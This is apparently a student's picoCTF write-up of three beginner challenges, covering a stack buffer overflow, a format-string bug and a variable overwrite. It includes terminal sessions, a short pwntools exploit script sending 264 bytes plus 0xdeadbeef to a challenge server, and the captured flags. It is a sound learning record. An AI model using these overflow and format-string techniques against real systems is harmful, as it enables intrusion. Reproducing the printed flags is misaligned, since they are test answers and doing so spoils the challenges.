 # 1. buffer overflow 0
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:
- once i connected to the server using nc and typed out a random input the file exited for each and every input so then i moved on and opened the source code. 
- the name of the file was vuln which potentially stands fro vlunerable dn saw a function called sigsev which i searched up and figured out that it stands for segmentation fault(more in notes)
- so in the main fucntion the program runs and a segmentation handler is set up which ideally should crash the program in case such event occurs but it was set up as flag being printed if the event occurs so we move down and see that there is a buffer1 created which takes in a 100 character input and a vuln function is called which takes the input and copies it to a character buffer2 but it has been assigned only memeory for 16 characters to potentitally giving an input of more than 16 characters calls the sigsev function and hence th flag was printed on the terminal

```
dhiraj@DESKTOP-361HESD:~$ nc saturn.picoctf.net 62991
Input: 12345
The program will exit now
w
dhiraj@DESKTOP-361HESD:~$ nc saturn.picoctf.net 62991
Input: sdfsdfvmfhidkfmvnbfdhsjaksdcndhsjakl
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
## Concepts learnt:
- SIGSEGV (signal segmentation violation) is an error signal. the error appears when a program or code tries to access an invalid memory location and eventually sends a signal which causes the program to crash.
- in binary exploitation strcpy and gets are not safe to use. The manual pages for the functions (man 3 strcpy and man 3 gets) have warnings advising against using them.
- Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and gets() will continue to store characters past the end of the buffer.
## Resources:
- [about sigsegv](https://phoenixnap.com/kb/sigsegv)

***


# 2. format string 0
Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.

## Solution:
- like the previous challenge the goal was to trigger he segmentation fault since it has been set to print the flag in such case.
- so now when i using netcat and connected to the server it printed out a menu for me to choose out of three options and since the name of the challenge is format strings and we learnt about that in our pps classes the grilled cheese burger had a %114 embedded in it while when we selected the other two options the server just printed is more hungry and ended the program so like we gussed selecting grilled cheese took us to the next step of the program. the program only goes to the next step if and only if count of the slected choice is twice of the size of buffer and since size of buffer is 32 the system makes sure the size is greater than 64 bytes
- now count variable is equal to number of printed characters and it was expecting 114 characters and since there was no number it print in space or null and then called the serve bob function
- in this function the classical cheesesteak consisted of an embedded %s format string and when printf processes it without any argument it accesses the memory randomly and this triggers the segmenatation error and prints the flag

```
dhiraj@DESKTOP-361HESD:/mnt/c/Users/user/downloads$ nc mimas.picoctf.net 52882
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```
## Concepts learnt:
- SIGSEGV (signal segmentation violation) is an error signal. the error appears when a program or code tries to access an invalid memory location and eventually sends a signal which causes the program to crash.
- format specifiers are very important in c and should be dealt carefully with respect to writing code and one of the most important ascpects is to read the source code properly and understand where the loopholes exist so that we can exploit them and obtain flags

## Resources:
- [about sigsegv](https://phoenixnap.com/kb/sigsegv)
- [format strings in c](https://www.w3schools.com/c/c_variables_format.php)

***


# 3. clutter overflow
- we should find a possible vulnerability in the script and obtain the flag

## Solution:
- so one of the main vulnerabilities in this file is the gets commands which takes the input of the clutter and even in the manual of gets the biggest bug is that it takes more input than the required or designed size and can lead to overflow so first i try out by typing random characters and the code always prints out 0 as initiated.
- so to understand this more i tried exploring stack as it was one aspect (more in concepts) where the variables are stored so first code is initiated so the bottom part goes to code of 8 bytes followed by the character array clutter which holds 256 bytes and when we input more than 256 bytes like seen in the terminal prompt below the code value is the value of characters of ascii converted to hexa decimal in the reverse order so now our goal is to use this and make the value of code equal to deadbeef.
- so now at first i typed out 256 a's and saw that the python code value returned 0 and the same happend for 264 characters as a well so then after some searching i searched up learn about some form of cover which is of 8 bytes and when i typed 264 a's and random characters and observed that the ascii value of the characters was converted to hex and printed in the reverse order but for us to make code equal to deadbeaf.
- i spent researching about pwn tools and understood they are tools that are used in ctfs so then i prepared a script using resources where i read the message printed by the server and then sent an input which consists of 264 a's and then deadbeef encoded in the raw byte form which eventually prints the flag

```
My room is so cluttered...
What do you see?
123456
code == 0x0
code != 0xdeadbeef :(

My room is so cluttered...
What do you see?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaqwert
code == 0x7472657771
code != 0xdeadbeef :(

from pwn import *

nc_connection = remote('mars.picoctf.net', 31890)

limit = b'A' * 264
value_code = p64(0xdeadbeef)
final_input = limit + value_code

log.info("Receiving information")
nc_connection.recvuntil(b'What do you see?')

log.info("Sending the input")
nc_connection.sendline(final_input)

log.success("output sent.")
nc_connection.interactive()

```

## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Concepts learnt:
- read the manual and gets and fgets and we can see that fgets reads one characters less than the value set because fgets gets terminated by the /0 byte is stored in the last character of the buffer
- each byte is represeted by two hex characters and the system reads files the other way around and the slash tells the terminal to read them as actual characters, as raw binary data and not as ascii values
- i learnt a lot about pwn tools and how each individual command is helpful for communication with the server and many individual commands listen in the docs below.

## Resources:
- [stack organisation](https://www.geeksforgeeks.org/computer-organization-architecture/memory-stack-organization-in-computer-architecture/)(https://www.geeksforgeeks.org/compiler-design/storage-allocation-strategies-in-compiler-design/)
-[about pwn tools](https://docs.pwntools.com/en/stable/about.html)(https://github.com/Gallopsled/pwntools)

***